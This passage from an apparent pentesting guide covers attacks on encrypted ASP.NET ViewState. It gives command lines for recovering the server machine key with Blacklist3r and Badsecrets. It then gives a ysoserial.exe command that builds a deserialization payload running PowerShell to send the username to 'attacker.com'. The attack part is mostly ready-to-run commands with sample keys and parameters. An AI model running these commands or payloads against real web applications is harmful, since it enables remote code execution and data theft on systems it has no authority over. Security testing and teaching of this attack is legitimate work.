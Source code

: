 Alternatively, this can be done by specifying the below option inside the `machineKey` paramter of web.config file.

```bash
compatibilityMode="Framework45"
```

As in the previous case Burp doesn't identify if the request is MAC protected because the **value is encrypted.** Then, to send a **valid payload the attacker need the key**.

![](https://notsosecure.com/sites/all/assets/group/nss\_uploads/2019/06/4.0.png)

You can try to use [**Blacklist3r(AspDotNetWrapper.exe)** ](https://github.com/NotSoSecure/Blacklist3r/tree/master/MachineKey/AspDotNetWrapper)to find the key being used:

```
AspDotNetWrapper.exe --keypath MachineKeys.txt --encrypteddata bcZW2sn9CbYxU47LwhBs1fyLvTQu6BktfcwTicOfagaKXho90yGLlA0HrdGOH6x/SUsjRGY0CCpvgM2uR3ba1s6humGhHFyr/gz+EP0fbrlBEAFOrq5S8vMknE/ZQ/8NNyWLwg== --decrypt --purpose=viewstate  --valalgo=sha1 --decalgo=aes --IISDirPath "/" --TargetPagePath "/Content/default.aspx"

--encrypteddata = {__VIEWSTATE parameter value}
--IISDirPath = {Directory path of website in IIS}
--TargetPagePath = {Target page path in application}
```

For a more detailed description for IISDirPath and TargetPagePath [refer here](https://soroush.secproject.com/blog/2019/04/exploiting-deserialisation-in-asp-net-via-viewstate/)

![](https://notsosecure.com/sites/all/assets/group/nss\_uploads/2019/06/4.1.png)

Or, with [**Badsecrets**](https://github.com/blacklanternsecurity/badsecrets) (with a generator value):

```
cd badsecrets
python examples/blacklist3r.py --viewstate JLFYOOegbdXmPjQou22oT2IxUwCAzSA9EAxD6+305e/4MQG7G1v5GI3wL7D94W2OGpVGrI2LCqEwDoS/8JkE0rR4ak0= --generator B2774415
```

![](https://user-images.githubusercontent.com/24899338/227043316-13f0488f-5326-46cc-9604-404b908ebd7b.png)

Once a valid Machine key is identified, **the next step is to generate a serialized payload using** [**YSoSerial.Net**](https://github.com/pwntester/ysoserial.net)

```
ysoserial.exe -p ViewState  -g TextFormattingRunProperties -c "powershell.exe Invoke-WebRequest -Uri http://attacker.com/$env:UserName" --path="/content/default.aspx" --apppath="/" --decryptionalg="AES" --decryptionkey="F6722806843145965513817CEBDECBB1F94808E4A6C0B2F2"  --validationalg="SHA1" --validationkey="C551753B0325187D1759B4FB055B44F7C5077B016C02AF674E8DE69351B69FEFD045A267308AA2DAB81B69919402D7886A6E986473EEEC9556A9003357F5ED45"
```

If you have the value of `__VIEWSTATEGENERATOR` you can try to **use** the `--generator` parameter with that value and **omit** the parameters `--path` and `--apppath`

![](https://notsosecure.com/sites/all/assets/group/nss\_uploads/2019/06/4.2.png)
